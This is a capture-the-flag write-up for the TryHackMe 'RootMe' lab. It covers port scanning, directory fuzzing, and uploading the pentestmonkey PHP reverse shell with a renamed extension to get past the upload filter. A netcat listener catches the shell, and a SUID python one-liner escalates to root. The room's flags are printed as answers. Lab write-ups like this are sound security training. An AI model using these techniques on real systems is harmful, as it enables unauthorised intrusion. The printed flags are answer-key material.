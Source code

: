 ```yaml
---
layout: single
title: RootMe - TryHackMe
excerpt: "RootMe is a quick and fun easy CTF for beginners where we have to upload a php file to receive a reverse shell and use python to be root"
date: 2023-01-31
classes: wide
header:
  teaser: /assets/images/try-writeup-rootme/icon.png
  teaser_home_page: true
  icon: /assets/images/tryhackme.webp
categories:
  - hackthebox
  - infosec
tags:  
  - SUID
  - PHP
---
```

![](/assets/images/try-writeup-rootme/icon.png)

RootMe is a quick and fun easy CTF for beginners where we have to upload a php file to receive a reverse shell and use python to be root

## PortScan

```
Nmap scan report for 10.10.55.4
Host is up (0.37s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Task 2 Reconnaissance

*Scan the machine, how many ports are open?* `2`

*What version of Apache is running?* `2.4.29`

*What service is running on port 22?* `ssh`

*Find directories on the web server using the GoBuster tool.* `No answer needed`

To answer the last question we need to do fuzzing first

```
❯ gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt -t 20 -u http://10.10.55.4
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.55.4
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/01/31 23:38:50 Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 305] [--> http://10.10.55.4/js/]
/uploads              (Status: 301) [Size: 310] [--> http://10.10.55.4/uploads/]
/css                  (Status: 301) [Size: 306] [--> http://10.10.55.4/css/]    
/panel                (Status: 301) [Size: 308] [--> http://10.10.55.4/panel/]  
/server-status        (Status: 403) [Size: 275]
```

*What is the hidden directory?* `/panel/`

The same directories
```
❯ nmap --script http-enum -p80 10.10.55.4 -oN webScan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-31 23:41 CST
Nmap scan report for 10.10.55.4
Host is up (0.16s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

```

## Getting a shell

WebPage

```js
❯ whatweb http://10.10.55.4
http://10.10.55.4 [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.55.4], Script, Title[HackIT - Home]
```

This is the WebPage

![](/assets/images/try-writeup-rootme/webpage.png)

We can upload files in `/panel/`

![](/assets/images/try-writeup-rootme/panel.png)

The web have PHP so can try to upload a file to receive a reverse shell

- [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
❯ git clone https://github.com/pentestmonkey/php-reverse-shell
Clonando en 'php-reverse-shell'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 10 (delta 1), reused 1 (delta 1), pack-reused 7
Recibiendo objetos: 100% (10/10), 9.81 KiB | 4.90 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
❯ ls
 php-reverse-shell
❯ cd php-reverse-shell
❯ ls
 CHANGELOG   COPYING.GPL   COPYING.PHP-REVERSE-SHELL   LICENSE   php-reverse-shell.php   README.md
```

Now we have to modify the script with our IP and port 

![/assets/images/try-writeup-rootme/xd.png](/assets/images/try-writeup-rootme/xd.png)


If you try to upload the file doesn't work 

![/assets/images/try-writeup-rootme/F.png](/assets/images/try-writeup-rootme/F.png)


We need to bypass that so change the name of the script

```
❯ mv php-reverse-shell.php php-r.phptml
❯ ls
 CHANGELOG   COPYING.GPL   COPYING.PHP-REVERSE-SHELL   LICENSE   php-r.phptml   README.md
```

It works 

![/assets/images/try-writeup-rootme/work.png](/assets/images/try-writeup-rootme/work.png)

Now go to `/uploads`

![/assets/images/try-writeup-rootme/shell.png](/assets/images/try-writeup-rootme/shell.png)


Now listen on the port you put in the script

```
❯ nc -lvnp 443
listening on [any] 443 ...
```

Click on the file if you have problems or you don't receive the shell change the name of the script `.php5`

![/assets/images/try-writeup-rootme/click.png](/assets/images/try-writeup-rootme/click.png)


```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.18.12.205] from (UNKNOWN) [10.10.55.4] 41936
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:11:23 up 41 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@rootme:/$
Ctrl+z
stty raw -echo; fg
reset xterm
```

## User.txt

```
www-data@rootme:/$ find / -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$
```

```
www-data@rootme:/$ cat /var/www/user.txt 
THM{y0u_g0t_a_sh3ll}
www-data@rootme:/$
```

## Privilege escalation

Python is SUID

```
www-data@rootme:/$ find / -perm -4000 2>/dev/null | grep -v snap   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
www-data@rootme:/$
```

*Search for files with SUID permission, which file is weird?* `/usr/bin/python`

*Find a form to escalate your privileges.* `no answer needed`

Before root.txt

-[Be root with python](https://gtfobins.github.io/gtfobins/python/#suid)

```
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt  
THM{pr1v1l3g3_3sc4l4t10n}
# 
```

*root.txt* `THM{pr1v1l3g3_3sc4l4t10n}`















































